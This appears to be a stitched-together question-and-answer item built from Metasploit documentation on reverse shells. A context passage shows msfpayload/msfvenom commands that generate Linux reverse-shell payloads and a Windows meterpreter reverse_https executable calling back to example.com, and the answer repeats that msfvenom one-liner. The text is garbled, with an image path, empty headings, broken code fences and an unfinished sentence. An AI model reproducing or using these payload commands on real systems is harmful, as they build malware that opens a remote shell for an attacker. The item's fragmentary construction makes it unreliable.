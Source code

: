 Context:### Windows common reverse shell
### Linux common reverse shell
## How to set up for a reverse shell during payload generation
### Step 1: Generate the executable payload
On the attacker's box, run `msfpayload` or `msfvenom`:
```bash
# Generate a payload for use within C
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```

### Tracking the UUID
Payload UUIDs are enabled by default, but are not tracked unless the
```PayloadUUIDTracking```

option is set to
```true

 Question: "Generate an example of using msfvenom to create a Windows payload with the UUID technique. The payload must use reverse_https. Your response should be a single line of Bash code." 

 Your response: 
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```